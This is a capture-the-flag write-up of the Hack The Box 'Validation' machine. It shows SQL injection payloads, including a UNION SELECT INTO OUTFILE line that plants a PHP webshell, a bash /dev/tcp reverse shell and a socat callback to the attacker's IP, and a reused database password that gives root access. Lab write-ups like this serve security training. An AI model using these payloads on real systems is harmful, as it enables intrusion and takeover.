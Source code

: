 ```yaml
---
layout: post
title: Hack The Box - Validation Writeup
date: 2024-06-03 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![validationBadge.png](/assets/img/Validation/validationBadge.png)

## Summary

While testing functionalities of application on port 80, I discovered that `country` parameter is vulnerable to SQL Injection. I was able to determine specific number of columns in the table by using `ORDER` query. With this knowledge, I was able to write files on web server via `SELECT INTO_OUTFILE`. I created `webshell.php` in the apache `webroot` and used `URL` encoded bash payload to get reverse shell on system. While enumerating system as user `www-data`, I stumbled upon interesting file `/var/www/html/config.php`. File contains credentials for `mysql` , so I tried to reuse this password and log in as user `root`. This proved to be valid password and I got root access to the system.

___
## Reconnaissance

### Nmap

```
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration


| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.116 | **TCP**: 22, 80, 4566, 8080 |


#### Port 80

![80.png](/assets/img/Validation/80.png)


![dirsearch.png](/assets/img/Validation/dirsearch.png)

While testing functionality of application, I placed single quote in the `country` parameter which resulted in error. This indicates that application could be vulnerable to SQL Injection and requires further testing. 

![sqlTest.png](/assets/img/Validation/sqlTest.png)

![sqlTestError.png](/assets/img/Validation/sqlTestError.png)

___
## Initial Foothold

### UNION-based SQL Injection

I tried to insert statement that orders results by a specific column meaning it will fail whenever the selected column does not exist. This way I was able to determine number of columns in the table. 

```
' ORDER BY 2-- //
```

This payload resulted in error which means that table does not have 2 columns. 


![orderError.png](/assets/img/Validation/orderError.png)

```
' ORDER BY 1-- //
```

![orderSuccess.png](/assets/img/Validation/orderSuccess.png)

Missing error message means that our statement was valid and we determined that table has one column. Now that we know number of columns in table we can try to write files on web server via `SELECT INTO_OUTFILE` statement. I will try to write `webshell.php` to `webroot` directory 

```
' UNION SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php" -- //
```

![burpWebshell.png](/assets/img/Validation/burpWebshell.png)

Submitting the payload we see error message which can be attributed to the fact that the query does not return any results, so we can continue in exploitation. To trigger the query we need to load the page by accessing it. To do this you can right click on the response in `Burp` choose `Show response in browser`, copy URL and paste it to your browser. 

![burpErrorAccess.png](/assets/img/Validation/burpErrorAccess.png)

Now we can access our `webshell`.

![webshell.png](/assets/img/Validation/webshell.png)

To get reverse shell on system I used URL encoded bash reverse shell. 

```
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.38/7003 0>&1"
```

![burpDecoder.png](/assets/img/Validation/burpDecoder.png)

After submitting URL encoded payload to `webshell` I received reverse shell connection.

![webshellPayload.png](/assets/img/Validation/webshellPayload.png)

![reverseShell.png](/assets/img/Validation/reverseShell.png)

### User.txt

![userFlag.png](/assets/img/Validation/userFlag.png)

### Upgrading TTY using socat

On victim machine:
```
/usr/bin/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.38:4444
```

On kali:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

![upgradeTTY.png](/assets/img/Validation/upgradeTTY.png)

_____
## Privilege Escalation

### System Enumeration

![config.png](/assets/img/Validation/config.png)

```
uhc : uhc-9qual-global-pw
```

#### Linpeas

![linpeas1.png](/assets/img/Validation/linpeas1.png)

![linpeas2.png](/assets/img/Validation/linpeas2.png)

### Logging as root

By using password found in `config.php`, I obtained root access to the system.

```
root : uhc-9qual-global-pw
```

![escalation.png](/assets/img/Validation/escalation.png)

___
## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Validation/rootFlag.png)